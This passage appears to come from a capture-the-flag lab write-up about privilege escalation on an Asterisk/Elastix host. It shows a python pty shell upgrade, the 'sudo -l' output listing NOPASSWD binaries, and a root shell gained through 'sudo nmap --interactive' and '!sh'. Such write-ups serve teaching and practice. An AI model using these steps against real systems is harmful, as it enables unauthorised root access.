```bash
233 => ,Fanis Papafanopoulos,,,attach=no|saycid=no|envelope=no|delete=no
Sorry! Attempt to access restricted file.
```
# Privilege Escalation
After upgrading the shell with python, we can run `sudo -l` to see if there are any binaries that the asterisk user can run. This reveals something unusual. nmap can be run as sudo. 
```
python -c 'import pty; pty.spawn("/bin/bash")`
```

```bash
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

```
Checking GTFOBins we see we can run the following to obtain a root shell:
```bash
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```
